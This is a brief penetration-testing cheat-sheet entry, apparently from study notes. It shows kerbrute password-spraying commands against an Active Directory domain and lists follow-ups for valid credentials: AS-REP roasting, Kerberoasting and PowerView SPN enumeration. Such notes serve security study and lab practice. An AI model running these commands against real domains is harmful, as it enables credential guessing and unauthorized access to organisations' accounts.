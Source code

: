 
### Internal password spraying
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

### External password spraying
```
kerbrute passwordspray -d corp.com --dc 192.168.199.70 userlist.txt "VimForPowerShell123!"
```

### If any username/password combination is found:
- Check [[AS-REP roasting]] with the valid credentials to see if other users are AS-REP-roastable.
- Check  for [[Kerberoasting]] with the valid credentials. If possible, check the user using `Get-NetUser -SPN` from `Powerview.ps1`.
